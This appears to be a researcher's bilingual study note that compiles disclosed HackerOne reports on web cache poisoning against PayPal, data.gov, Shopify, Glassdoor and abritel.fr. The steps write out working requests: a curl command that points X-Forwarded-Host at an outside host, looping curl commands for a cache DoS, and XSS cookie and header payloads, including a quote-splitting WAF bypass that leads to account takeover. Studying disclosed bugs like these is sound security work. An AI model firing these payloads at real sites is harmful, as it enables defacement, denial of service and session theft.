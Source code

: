 # 缓存中毒

## [DoS on PayPal via web cache poisoning](https://hackerone.com/reports/622122)
### Summary
On [https://paypal.com/](https://paypal.com/), you could impact core functionality by using an invalid Transfer-Encoding header to replace JavaScript files from [www.paypalobjects.com](http://www.paypalobjects.com/) with the message '501 Not Implemented'. This was patched and awarded a $9,700 bounty.

### Steps
1. 插件搜索
2. Transfer-Encoding头会导致501 Not Implemented”替换www.paypalobjects.com中的关键JavaScript文件来破坏核心功能

### Impact
1. DOS
2. 9500$💵


## [Defacement of catalog.data.gov via web cache poisoning to stored DOMXSS](https://hackerone.com/reports/303730)
### Summary
根本问题是服务器信任X-Forwarded-Host HTTP头，并使用它来填充body标记上的“data-site-root”和“data-locale-root”属性。然后，某些JavaScript从这些属性中指定的URL获取JSON文件，并将响应写入页面而不对其进行转义，从而导致DOMXSS漏洞。

### Step
1. curl格式
```code
curl -i -s -k -X $'GET' \
-H $'Host: catalog.data.gov' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: /' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?' -H $'Connection: close' \
$'https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6' > /dev/null
```
2. http raw格式
```code
GET /dataset/consumer-complaint-database?dontpoisoneveryone=6 HTTP/1.1
Host: catalog.data.gov
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?
Connection: close


```
3. 访问中毒页面：https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6 弹窗
### Impact
750$💵

## [https://themes.shopify.com Host header web cache poisoning lead to DoS](https://hackerone.com/reports/1096609)
### Summary
Poison your cache with HTTP header Host header with arbitrary PORT which is not opened. This attack may lead to Denial of Services

### Steps
1. `while true; do curl -ik "[https://themes.shopify.com:443/?g4mm4=hitthecache"](https://themes.shopify.com/?g4mm4=hitthecache%22) -H "Host: themes.shopify.com:1337"|grep ":1337"; sleep 0;echo 1; done`
2. `while true; do curl -ik "[https://themes.shopify.com:443/"|grep](https://themes.shopify.com/%22%7Cgrep) ":1337"; done`

### Impact
$2,900💵

## [Web Cache Poisoning leads to XSS and DoS](https://hackerone.com/reports/1621540)
### Summary
利用URL解析器混淆与https://glassdoor.com/Job/和https://glassdoor.com/mz-survey/interview/collectQuestions_input.htm/ 下的反射XSS相结合，通过cookie和头参数将XSS有效载荷缓存到/URL/Award/和/List/ endpoints。
上述组合允许将自反射的XSS转换为存储的XSS，该存储的XSS在大约10分钟的持续时间内被缓存到本地CDN。
为了影响所有用户，研究人员指出，他们理论上可以针对所有CDN，每10分钟循环一次，以保持该高速缓存加载存储的XSS。

### [Steps](https://nokline.github.io/bugbounty/2022/09/02/Glassdoor-Cache-Poisoning.html)
1. http头+cookie 构成反射性xss
```javascript
X-Forwarded-For: VULN
X-Forwarded-For: VULN><svg/onload=self[`alert`](document.domain)>
Cookie: gdId=VULN%22</script%20
```
2. 利用web缓存 将反射性xss变为存储型xss

## [Cache Poisoning Allows Stored XSS Via hav Cookie Parameter (To Account Takeover)](https://hackerone.com/reports/1760213)
### Summary
I was able to Takeover Accounts Via Cache Poisoning (XSS)

This was possible due to 4 issues:

1. `hav` cookie was reflected in the Response on https://www.abritel.fr/annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js
```javascript
var hav="value from cookie"
```

2. The server had a protection where it was "Hiding" double quotes, however the server was not doing that with greater than and less than symbols (<>) which allowed me to closed the script tag and using that double quotes protection I was able to Bypass the WAF easily

WAF would trigger when:

```http
Cookie: hav=xss"</script><svg/onload=alert(document.domain)>
```
---

But using double quotes I was able to bypass the WAF:

```http
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
```

Which reflected in the response as:

```html
var hav="xss</script><svg/onload=alert(document.domain)>"
```


3. The Server sees https://www.abritel.fr/annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js as a "cacheable" response, therefore the reflected value in the cookie was saved in that Page, any user who visited https://www.abritel.fr/annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js would get XSSed

4. Session cookie was HTTPonly Flagged, however, In this same page where the XSS was, there was a JS Variable called `window.INITIAL_STATE.system.cookie`  where the session was located in clear text

### Steps
1. Send this request
```javascript
GET /annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.js?xxxd HTTP/2
Host: www.abritel.fr
Cookie: hav=xss"</sc"ript><sv"g/onloa"d=aler"t"(document.doma"in)>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/signup?enable_registration=true&redirectTo=%2Fsearch%2Fkeywords%3Asoissons-france-%28xss%29%2FminNightlyPrice%2F0%3FpetIncluded%3Dfalse%26filterByTotalPrice%3Dtrue%26ssr%3Dtrue&referrer_page_location=serp
Upgrade-Insecure-Requests: 1
Te: trailers
```
2. Using another browser visit:
https://www.abritel.fr/annonces/location-vacances/france_midi-pyrenees_46_stcere_dt0.php.jpeg?xxxd

### Impact
Stored XSS to Account Takeover